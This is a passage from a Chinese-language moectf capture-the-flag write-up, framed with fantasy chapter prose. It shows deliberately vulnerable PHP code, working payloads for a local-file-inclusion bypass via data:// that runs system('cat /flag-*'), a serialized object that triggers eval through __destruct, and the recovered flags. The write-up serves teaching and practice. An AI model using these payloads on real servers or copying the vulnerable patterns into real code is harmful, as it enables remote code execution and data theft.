 ```
moectf{70c57075-0bc1-245e-03cc-3f77007a2b06}
```

## 16 第十六章 昆仑星途

> 玄天剑宗的庆功宴设在破碎天穹之下。葬星古墟的悬棺第一次不再是死亡的象征，而是化作漫天星灯，守玉人静立虚空，以身为烛，照亮这场跨越生死的盛宴。

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

include($_GET['file'] . ".php");
```

传递`file参数`会在前端展示内容，需要绕过`.php`，发现`allow_url_include = On`，`flag`文件名为随机30个数字字母（`flag-xxxx`）。我们利用文件包含原理，并用`#`注释掉URL中后续的参数以绕过检测。

```
http://127.0.0.1:65009/?file=data://text/plain,<?php system('cat /flag-*');?># 
```

```
moectf{3b6a1b51-3a4a-559b-4452-0cba9e8f1bd5}
```

## 17 第十七章 星骸迷阵·神念重构

> 脚下并非实地，而是悬浮的青铜齿轮，大的如山脉横亘，小的似微尘浮游。齿轮咬合处迸发着数据流光，在虚空中交织成无尽迴路。远处有破碎的殿宇倒悬，廊柱间缠绕着发光藤蔓——细看竟是具象化的代码流！

```php
<?php
highlight_file(__FILE__);

class A {
    public $a;
    function __destruct() {
        eval($this->a);
    }
}

if(isset($_GET['a'])) {
    unserialize($_GET['a']);
}
```

```
http://127.0.0.1:54364/?a=O:1:%22A%22:1:{s:1:%22a%22;s:10:%22phpinfo();%22;}
```

在`phpinfo()`的`env`里找到了`flag`。

```
moectf{cc0c2fc5-8ec3-ed9b-2741-e826d5207b5f}
```

## 18 第十八章 万卷诡阁·功法连环
